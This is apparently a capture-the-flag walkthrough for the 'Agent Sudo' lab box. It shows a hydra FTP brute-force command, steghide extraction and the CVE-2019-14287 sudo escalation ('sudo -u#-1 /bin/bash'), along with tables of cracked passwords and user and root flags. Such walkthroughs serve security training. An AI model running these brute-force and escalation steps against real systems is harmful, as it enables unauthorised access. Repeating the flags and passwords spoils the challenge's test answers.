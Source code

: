# Agent Sudo 

ip : `10.10.74.56`


## Enumerate

reveals a username
> http://10.10.74.56/agent_C_attention.php


| Questions | Answers |
|-----------|---------|
| How many open ports? | 3 |
| How you redirect yourself to a secret page ? | 
| What is the agent name? | chris |
| 
## Hash Cracking and Bruteforcing

using hydra to bruteforce ftp with user chris
```
hydra -l chris -P /usr/share/wordlist/rockyou.txt 10.10.74.56 ftp -t 4
```
base 64 found
```
echo QXJlYTUx | base64 -d
```

steghide file extract
```
steghide extract -sf  cute-alien.jpg
```
found a new user named : `james` just login with the ssh

| Questions | Answers |
|-----------|---------|
| ftp password | crystal |
| Zip file password | alien |
| steg password | Area51 |
| Who is the other agent(in full name)? | james |
| SSH password | hackerrules! |


## Capture the user flag

| Questions | Answers |
|-----------|---------|
| What is the user flag ? | b03d975e8c92a7c04146cfa7a5a313c7 |
| What is the incident of the photo called ? | Roswell Alien Autopsy |


## Privilege escalation

escalating root privilages 
```
sudo -u#-1 /bin/bash
```

| Questions | Answers |
|-----------|---------|
| CVE number for the escalation | CVE-2019-14287 |
| What is the root flag ? | b53a02f55b57d4439e3341834d70c062 |
| Who is Agent R? | DesKel |

